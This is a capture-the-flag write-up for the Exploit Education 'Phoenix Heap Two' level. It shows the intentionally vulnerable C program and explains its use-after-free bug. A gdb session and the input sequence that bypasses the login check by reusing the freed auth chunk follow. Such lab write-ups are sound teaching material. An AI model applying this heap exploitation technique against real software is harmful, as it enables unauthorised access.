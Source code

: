 ```yaml
---
title: "Phoenix - Heap Two"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "The is a classic use-after-free (**UAF**) exploit, if we enter **\"auth AAAA\"** the code allocates memory and stores it in **auth** then copies the name **AAAA** to **auth->name**, so far so good..."
categories:
  - Binary Exploitation
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv) {
  char line[128];

  printf("%s\n", BANNER);

  while (1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if (fgets(line, sizeof(line), stdin) == NULL) break;

    if (strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(struct auth));
      memset(auth, 0, sizeof(struct auth));
      if (strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if (strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if (strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if (strncmp(line, "login", 5) == 0) {
      if (auth && auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```

The is a classic use-after-free (**UAF**) exploit, if we enter **"auth AAAA"** the code allocates memory and stores it in **auth** then copies the name **AAAA** to **auth->name**, so far so good.

To login we need **auth** to point to a memory address and **auth->auth** not to be zero, we can't overflow **name** since there is a length checking **strlen**.

The bug here is that **reset** frees **auth** allocated memory but **auth** still points to that memory location which could contain anything, **auth** here is called a **dangling pointer**.

The way **strdup** function works is it uses **malloc** under the hood to allocate memory for a new string, and the way **malloc** works (in very little details) is that it first looks if there is a previously-freed chunk of  memory, and that chunk is big enough to service the request, it will use that freed chunk for the new allocation.

So if we allocated memory for **auth**, freed that memory then entered **service** the **strdup** function will use the previously freed memory address of **auth**, and now we can write anything to **auth->auth** (we are writing to **service** but **auth** points to that address already).

The goal here is only to change **auth->auth** to any thing so we will just use some junk.

```
user@phoenix-amd64:~$ gdb -q /opt/phoenix/i486/heap-two
Reading symbols from /opt/phoenix/i486/heap-two...(no debugging symbols found)...done.

gef➤  disassemble main
Dump of assembler code for function main:
.....
   0x080487e4 <+367>:	mov    eax,ds:0x8049adc
   0x080487e9 <+372>:	mov    eax,DWORD PTR [eax+0x20]
   0x080487ec <+375>:	test   eax,eax
.....

gef➤  b *0x080487e9
Breakpoint 1 at 0x80487e9

gef➤  r
Starting program: /opt/phoenix/i486/heap-two 

Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth AAAA
[ auth = 0x8049af0, service = 0 ]
reset 
[ auth = 0x8049af0, service = 0 ]
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[ auth = 0x8049af0, service = 0x8049af0 ]
login 

Breakpoint 1, 0x080487e9 in main ()

gef➤  x/xw $eax+0x20
0x8049b10:	0x42424242		# value of auth->auth

gef➤  c
Continuing.
you have logged in already!
[ auth = 0x8049af0, service = 0x8049af0 ]
```

# Solution:

```
$ /opt/phoenix/i486/heap-two 
Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth AAAA
[ auth = 0x8049af0, service = 0 ]
reset 
[ auth = 0x8049af0, service = 0 ]
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[ auth = 0x8049af0, service = 0x8049af0 ]
login 
you have logged in already!
```